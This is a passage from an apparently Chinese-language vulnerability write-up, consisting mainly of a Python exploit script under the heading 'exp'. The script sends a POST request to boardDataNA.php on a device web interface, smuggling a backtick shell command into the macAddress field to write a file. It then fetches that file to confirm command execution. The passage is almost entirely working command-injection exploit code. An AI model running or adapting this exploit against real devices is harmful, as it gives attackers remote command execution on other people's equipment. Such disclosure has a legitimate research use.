 这样可以看到我们的命令有没有执行成功。



## 2.2、exp

![](vx_images/94356907000290.png)



源码：
```
import requests

burp0_url = "http://192.168.0.100:80/boardDataNA.php"
burp0_cookies = {"PHPSESSID": "bb6c9d60fd4496d3467030bc3ab03cd4"}
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.100", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.0.100/boardDataNA.php", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
burp0_data = {"macAddress": "123456789123`echo aaaaaa > a.php`", "reginfo": "1", "writeData": "Submit"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


# import requests

burp1_url = "http://192.168.0.100:80/a.php"
burp1_cookies = {"PHPSESSID": "bb6c9d60fd4496d3467030bc3ab03cd4"}
burp1_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
a=requests.get(burp1_url, headers=burp1_headers, cookies=burp1_cookies)

print(a.text)

```
